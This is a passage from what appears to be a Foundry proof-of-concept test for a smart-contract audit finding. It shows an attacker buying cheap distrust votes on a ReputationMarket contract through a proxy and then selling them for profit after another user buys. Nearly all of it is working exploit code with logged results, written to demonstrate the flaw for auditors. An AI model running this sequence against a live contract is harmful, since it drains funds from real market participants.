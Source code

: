 ```solidity
            uint256 exploitCost,
            ,
            ,
            uint256 exploitTotal,
            
        ) = abi.decode(data, (uint256, uint256, uint256, uint256, uint256));
        
        console2.log("Exploit vote(Distrust) simulation:");
        console2.log("- Expected Cost:", exploitCost);
        console2.log("- Total Cost:", exploitTotal);

        // Execute exploit purchase
        vm.startPrank(attacker);
        deal(attacker, 0.1 ether);
        (success, ) = address(proxyReputationMarket).call{value: 0.1 ether}(
            abi.encodeWithSignature("buyVotes(uint256,bool,uint256,uint256)", MARKET_ID, false, exploitVoteAmount, 0)
        );
        require(success, "Exploit purchase failed");

        // Log attacker balance and market state
        console2.log("\nExploit results:");
        console2.log("- attacker remaining balance:", address(attacker).balance);
        
        (, data) = address(proxyReputationMarket).call(
            abi.encodeWithSignature("getMarket(uint256)", MARKET_ID)
        );
        (marketInfo) = abi.decode(data, (ReputationMarket.MarketInfo));
        console2.log("- Final Trust Votes:", marketInfo.trustVotes);
        console2.log("- Final Distrust Votes:", marketInfo.distrustVotes);
        vm.stopPrank();

        // 3: Demonstrate profit through sell after untrust votes have been purchased
        console2.log("\n3: Demonstrating profit after untrust votes have been purchased");
        vm.startPrank(untrustBuyingUser);
        deal(untrustBuyingUser, 7 ether);
        
        // Buy votes at zero cost
        (success, ) = address(proxyReputationMarket).call{value: 7 ether}(
            abi.encodeWithSignature("buyVotes(uint256,bool,uint256,uint256)", MARKET_ID, false, 43_000, 0)
        );
        require(success, "Untrust votes purchase failed");

        // Sell votes for profit
        vm.startPrank(attacker);
        uint256 balanceBefore = address(attacker).balance;
        (success, ) = address(proxyReputationMarket).call(
            abi.encodeWithSignature("sellVotes(uint256,bool,uint256,uint256)", MARKET_ID, false, 43_000, 0)
        );
        require(success, "Untrust votes sell failed");
        uint256 profit = address(attacker).balance - balanceBefore;
        
        console2.log("After selling results:");
        console2.log("- Profit made:", profit);
        console2.log("- Final untrustBuyingUser balance:", address(attacker).balance);
        
        assertTrue(profit > 0, "Arbitrage should generate profit");
        assertGt(address(attacker).balance, 7 ether, "Should profit more than initial investment");
    }
}
```
